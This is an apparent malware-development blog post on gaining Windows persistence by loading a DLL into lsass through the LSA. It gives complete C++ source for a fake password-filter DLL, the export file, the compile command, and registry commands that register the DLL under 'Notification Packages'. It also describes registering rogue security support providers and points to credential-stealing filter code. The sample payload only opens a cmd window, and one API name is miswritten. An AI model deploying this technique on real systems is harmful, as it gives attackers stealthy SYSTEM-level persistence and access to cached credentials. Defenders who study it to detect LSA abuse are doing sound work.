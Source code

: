 ```yaml
---
layout: post
title: Using LSA for Windows persistence
date: 2023-11-26
categories: [Malware Development,Persistence]
tags: [persistence]     
---
```



The Local Security Authority (LSA) is a subsystem in Windows architecture that authenticates and logs users to the local systems. It's responsible for verifying password changes, login attempts, creating access tokens, and performing general Windows authentication and authorization tasks. The LSA also contains the Local Security Policy, which contains aspects about everything related to local security. 

It achieves this through a process called Local Security Authority Subsystem Service (lsass.exe), which we all love dumping the memory of thanks to its contents. LSASS caches all kinds of credentials like the DPAPI masterkey, Kerberos passwords, tickets, ekeys, pins and so on.

What may surprise you is that LSA can also be used for persistence, in which case our code will be executed inside the lsass's process memory. Consequently, the code will run as the SYSTEM user, and we will be able to extract credentials from the address space. All of these techniques involve creating DLLs to be loaded by LSA into the lsass process. 

These techniques might not work if lsass is running as Protected Process Light (PPL), because our DLL has to be signed by Microsoft. I will talk about bypassing PPL in another post. For now, let's discover a few persistency procedures involving LSA.


### Password filters

LSA password filters are used to validate password changes against password policies. When you try to change your password, the LSA calls each registered password filter twice: once to verify the new password, and then to notify the filters that the change has been made. 

A password filter has to export three functions to be successfully registered:

- `InitializeChangeNotify`
This function gets called when the password filter is loaded into the LSA
- `PasswordFilter`
This function validates the newly created password
- `PasswordChangeNotify`
This is the function that gets called when the password is successfully changed

Here is a simple implementation, which will open a cmd shell and display the message "Persistence!" if our method is successful. Let's name this file `filter.cpp` 

```cpp
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>

int hack(void) 
{
   STARTUPINFO si;
   PROCESS_INFORMATION pi;

   ZeroMemory(&si, sizeof(si));
   si.cb = sizeof(si);
   ZeroMemory(&pi, sizeof(pi));

   wchar_t cmdLine[] = L"cmd /K echo Persistence!";

   if (!CreateProcess(NULL, cmdLine, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi))
   {
       
       return 1;
   }

   
   CloseHandle(pi.hProcess);
   CloseHandle(pi.hThread);

   return 0;
}

BOOLEAN __stdcall InitializeChangeNotify(void) 
{
   // We start our hack function, and return TRUE to let LSA know that everything went right
    HANDLE th;

    th = createThread(0, 0, (LPTHREAD_START_ROUTINE) hack, 0, 0, 0);
    WaitForSingleObject(th, 0);

    return TRUE;
}

NTSTATUS __stdcall PasswordChangeNotify(PUNICODE_STRING UserName, ULONG RelativeId, PUNICODE_STRING NewPassword) 
{ 

    return 0; 

}
BOOLEAN __stdcall PasswordFilter(PUNICODE_STRING AccountName, PUNICODE_STRING FullName, PUNICODE_STRING Password, BOOLEAN SetOperation) 
{ 
    // this function returns TRUE in order to tell LSA that the password is ok
    return TRUE; 

}
```

We also need to export the functions we defined, by creating a file `filter.def`.

```
LIBRARY
EXPORTS
  InitializeChangeNotify
  PasswordFilter
  PasswordChangeNotify
```

Finally, to create our DLL we can compile those two as such:

```cmd
cl.exe /W0 /D_USRDLL /D_WINDLL filter.cpp filter.def /MT /link /DLL /OUT:filter.dll
```

Then, to register this fake "password filter" we need to change the `Notification Packages` entry in the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` registry key to contain the name of our DLL. But first, let's see the current value of the aforementioned entry:

```cmd
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" 

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    Notification Packages    REG_MULTI_SZ    scecli
```
We see that it holds the value `scecli`, and it is a `REG_MULTI_SZ` type, which means that it contains a sequence of null-terminated strings `Kind\0Of\0Like\0This\0\0`. The first '\0' terminates the first string, the second-from-last `\0` terminates the last string, and the final `\0` terminates the sequence.

So to add our DLL to the `Notification Packages` entry, we must copy our `filter.dll` to `%windir%\System32\` and then execute:

```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" /d "scecli"\0"filter" /t REG_MULTI_SZ /f
```

After a restart, LSA should load our dll into its address space, and now we have persistence.


### Authentication packages (AuthPkg) and Security Support Provider (SSP)

Authentication packages are mainly used for instructing LSA on what basis to authenticate a user. For example, the MSV1_0 AuthPkg checks the SAM database to determine whether the provided credentials are correct or not. SSPs on the other hand, are an implementation of security protocols like Kerberos or NTLM. 

LSA automatically loads all registered SSPs and AuthPkgs into its process at boot:

- In the case of SSPs it calls the `SpLsaModeInitialize` function to obtain pointers to the functions implemented by each security package in that DLL. Those pointers are passed to the LSA in an array called `SECPKG_FUNCTION_TABLE`. 

- In the case of an AuthPkg, LSA calls `LsaApInitializePackage` to initialize the authentication package.

To achieve persistence using this method, all we have to do is copy the dll to `%windir%\System32` and add it's name to the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages` registry. Alternatively, we can use PowerSploit's `Install-SSP` function or Empire's `install_ssp` module.

For example, we can look at Mimilib. Particularly, the [kssp.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kssp.c) component, in which we notice that the function `kssp_SpLsaModeInitialize` is exported as `SpLsaModeInitialize` in `Mimilib.def`. Consequently, when LSA loads this SSP, the preceding function is called, and Mimilib achieves it's functionality.  


### Extras

If you wish to see another implementation of process filters, check out [this code](https://github.com/gtworek/PSBits/blob/master/PasswordStealing/PSPY.c). I also suggest reading more about authentication packages and SSPs from the official Microsoft docs, as I haven't covered those concepts in great depth.

Thank you for reading until the end!


### Resources 

https://learn.microsoft.com/en-us/windows/win32/secauthn/authentication-packages
https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture
